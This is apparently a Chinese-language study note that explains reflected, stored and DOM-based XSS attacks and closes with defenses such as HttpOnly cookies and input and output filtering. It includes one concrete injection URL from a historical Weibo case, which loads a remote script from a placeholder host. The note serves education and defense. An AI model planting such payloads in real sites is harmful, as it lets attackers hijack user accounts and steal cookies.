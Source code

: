﻿# XSS 攻击

标签（空格分隔）： 安全

---
`XSS`, 即 `Cross Site Script`, 中译是跨站脚本攻击;其原本缩写是 `CSS`, 但为了和层叠样式表`CSS`有所区分,因而在安全领域叫做`XSS`

`XSS` 攻击是指攻击者在网站上注入恶意的客户端代码,通过恶意脚本对客户端网页进行篡改,从而在用户浏览网页是,对用户流浪器进行控制或者获取用户隐私数据的一种攻击方式.

攻击者对客户端网页注入的恶意脚本一般包括`JavaScript`, 有时也会包括`HTML`和`flash`,有很多方式进行`XSS`攻击,但它们的共同点为: 将一些隐私数据像`cookie`,`session`发送和攻击者,将受害者重定向到一个由攻击者控制的网站, 在受害者的机器上进行一些恶意操作.

可以分为3类: 反射型(非持久型), 存储型(持久型), 基于DOM

### 反射型
反射型`XSS`的攻击步骤:
1. 攻击者构造出特殊的 URL，其中包含恶意代码。
2. 用户打开带有恶意代码的 URL 时，网站服务端将恶意代码从 URL 中取出，拼接在 HTML 中返回给浏览器。
3. 用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行。
4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。

由于需要用户主动打开恶意的`URL` 才能生效, 攻击者往往会结合多种手段诱导用户点击

#### 具体的案例: 新浪微博名人堂反射型 XSS 漏洞
攻击者发现 `http://weibo.com/pub/star/g/xyyyd` 这个 `URL` 的内容未经过滤直接输出到 `HTML` 中。于是攻击者构建出一个 `URL`，然后诱导用户去点击：
`http://weibo.com/pub/star/g/xyyyd"><script src=//xxxx.cn/image/t.js></script>`
用户点击这个 `URL` 时，服务端取出请求 `URL`，拼接到 `HTML` 响应中：
`<li><a href="http://weibo.com/pub/star/g/xyyyd"><script src=//xxxx.cn/image/t.js></script>">按分类检索</a></li>`
复制代码浏览器接收到响应后就会加载执行恶意脚本 `//xxxx.cn/image/t.js`，在恶意脚本中利用用户的登录状态进行关注、发微博、发私信等操作，发出的微博和私信可再带上攻击 `URL`，诱导更多人点击，不断放大攻击范围。这种窃用受害者身份发布恶意内容，层层放大攻击范围的方式，被称为“`XSS` 蠕虫”。

### 存储型
存储型 `XSS`的攻击步骤:
1. 攻击者将恶意代码提交到目标网站的数据库中。
2. 用户打开目标网站时，网站服务端将恶意代码从数据库取出，拼接在 HTML 中返回给浏览器。
3. 用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行。
4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作

这种攻击常见于带有用户保存数据的网站功能,如论坛发帖,商品评论,用户私信

#### 具体案例:
类式博客评论咯, 黑客把脚本代码传上去服务端, 当其他用户登录时,服务器返回的评论中,包含黑客的脚本代码,就会在其他用户的环境下执行, 获取用户隐私信息之类.

### DOM 型
`DOM` 型 `XSS` 攻击步骤:
1. 攻击者构造出特殊的 URL，其中包含恶意代码。
2. 用户打开带有恶意代码的 URL。
3. 用户浏览器接收到响应后解析执行，前端 JavaScript 取出 URL 中的恶意代码并执行。
4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。

#### 具体案例:
用户通过 `input` 框之类的注入`链接式(包含js脚本)`的`DOM`节点,当点击该节点时,运行脚本,产生破坏.

____
### `XSS` 攻击的规范

#### 1. `HttpOnly` 防止劫取 `CooKie`
`HttpOnly` 最早由微软提出，至今已经成为一个标准。浏览器将禁止页面的`Javascript` 访问带有 `HttpOnly` 属性的`Cookie`。
攻击者可以通过注入恶意脚本获取用户的 `Cookie` 信息。通常 `Cookie` 中都包含了用户的登录凭证信息，攻击者在获取到 `Cookie` 之后，则可以发起 `Cookie` 劫持攻击。所以，严格来说，`HttpOnly` 并非阻止 `XSS` 攻击，而是能阻止 `XSS` 攻击后的 `Cookie` 劫持攻击。

#### 2. 输入检查
不要相信用户的任何输入。 对于用户的任何输入要进行检查、过滤和转义。建立可信任的字符和 HTML 标签白名单，对于不在白名单之列的字符或者标签进行过滤或编码

#### 3. 输出检查
用户的输入会存在问题，服务端的输出也会存在问题。一般来说，除富文本的输出外，在变量输出到 `HTML` 页面时，可以使用编码或转义的方式来防御 XSS 攻击。